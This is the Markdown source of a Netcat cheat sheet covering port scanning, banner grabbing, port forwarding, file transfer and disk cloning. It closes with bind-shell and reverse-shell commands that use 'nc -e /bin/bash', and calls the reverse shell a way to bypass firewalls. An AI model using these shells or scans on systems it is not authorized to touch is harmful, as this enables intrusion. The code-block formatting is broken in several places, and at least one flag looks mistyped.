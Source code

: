 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started

### Usage

Connect to a host located anywhere

\`\`\`shell script $ nc \[options\] \[host\] \[port\]

```text
Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

## Examples {.cols-3}

### Banner grabbing

\`\`\`shell script $ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1

```text
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 \`\`\`shell script $ nc -zvn 192.168.1.1 21-25

```text
Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

\`\`\`shell script $ nc -lp 8001 -c "nc 127.0.0.1 8000"

```text
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 &lt; file.txt

```text
Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 &gt; file.txt

```text
Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) \`\`\`shell script $ tar -cvf – dir\_name \| nc -l 8000

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server \(192.168.1.9\) \`\`\`shell script $ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt

```text
Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) \`\`\`shell script $ dd if=/dev/sda \| nc -l 8000

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) \`\`\`shell script $ cat video.avi \| nc -l 8000

```text
Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 -e /bin/bash

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000

```text
Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

